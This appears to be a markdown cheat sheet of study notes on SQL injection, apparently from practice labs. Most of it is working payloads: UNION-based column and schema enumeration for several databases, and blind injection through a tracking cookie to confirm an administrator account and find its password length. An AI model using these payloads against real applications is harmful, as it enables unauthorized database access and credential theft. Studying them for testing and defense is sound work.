 # SQL Injection

### How to check column in table query

Injecting a series of ORDER BY clauses and incrementing the specified column index until an error occurs.
```
' ORDER BY 1 -- 
' ORDER BY 2 --
' ORDER BY 3 --
```

### Finding columns with a useful data type

Having already determined the number of required columns, you can probe each column to test whether it can 
hold string data by submitting a series of UNION SELECT payloads that place a string value into each column in turn.
```
' UNION SELECT ‘a’,NULL,NULL,NULL --
' UNION SELECT NULL,’a’,NULL,NULL -- 
' UNION SELECT NULL,NULL,’a’,NULL --
' UNION SELECT NULL,NULL,NULL,’a’ --
```
 - When determining the sata type from an *Oricle* database you will need to use the from clause. 
    - Example: `' UNION SELECT ‘a’,NULL FROM DUAL--`

## Database version
### You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

- Oracle: 	`SELECT banner FROM v$version` or `SELECT version FROM v$instance`
  > Example: `' UNION SELECT banner,NULL FROM v$version--`
- Microsoft: 	`SELECT @@version`
- PostgreSQL: 	`SELECT version()` 
  > Example: `'+UNION+SELECT+version()+,NULL--`
- MySQL: 	`SELECT @@version`

## Database contents
### You can list the tables that exist in the database, and the columns that those tables contain.

- Oracle
  - `SELECT * FROM all_tables`
    > Example: `' UNION SELECT TABLE_NAME,NULL FROM all_tables--`
    >> *table_name* is a sql_identifier that displays the name(s) of the table(s)
  - `SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`
    > Example: `' UNION SELECT COLUMN_NAME,NULL FROM all_tab_columns WHERE table_name = 'USERS_QQGUCL'--`
    >> *column_name* is a	sql_identifier that displays the name(s) of the column(s) under a specified table 
- Microsoft	
  - `SELECT * FROM information_schema.tables`
  - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
- PostgreSQL	
  - `SELECT * FROM information_schema.tables`
    > Example: `' UNION SELECT table_name,NULL FROM information_schema.tables--` 
    >> *table_name* is a sql_identifier that displays the name(s) of the table(s)
  - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` 
    > Example: `' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_jrcoia'--`
    >> *column_name* is a	sql_identifier that displays the name(s) of the column(s) under a specified table 
- MySQL	
  - `SELECT * FROM information_schema.tables`
  - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`

# Blind SQL Injection

### Test to see if application is vulnerable to blind SQLi
Force a true statement buy injectiong `' and 1=1--` (true) and `' and 1=2--` (false) at the end of the tracking id to see how the application responds to a true statement and a false statement. We can use the difference in how the application responds to gather information about the system.
> Example `Cookie: TrackingId=Tz8WopT2zdfF3ayw' and 1=1--; session=3NYJZxhVb8RYO3dnt4ia4hYVL8zidlNQ` true message
> Example `Cookie: TrackingId=Tz8WopT2zdfF3ayw' and 1=2--; session=3NYJZxhVb8RYO3dnt4ia4hYVL8zidlNQ` false message

#### Example qureies on how to inject code for information in blind SQLi
- `' and (select 'x' from users LIMIT 1)='x'--` This quiere states that if there is a users_table return x. If there is a users_table then we will get a true response back, if there is no users_table then we will get a false response back.
- `' and (select username from users where username='administrator')='administrator'--` If the first quiere returns true and there is a users table then we can also send this queire to see if there is an administrators account in the users_table

#### Password enumeration with blind SQLi
1. Find out the length of the password: `' and (select username from users where username='administrator' and LENGTH (password)>1)='administrator'--` This quiere returns true if the password length is grater than 1. Increase the lenght number after every true message untill you get a false message indicating the passowrd length 
> Example: This set of quereies indicated that the password lenght is 16 characters long
```
`' and (select username from users where username='administrator' and LENGTH (password)>14)='administrator'--` true
`' and (select username from users where username='administrator' and LENGTH (password)>15)='administrator'--` true
`' and (select username from users where username='administrator' and LENGTH (password)>16)='administrator'--` flase
```





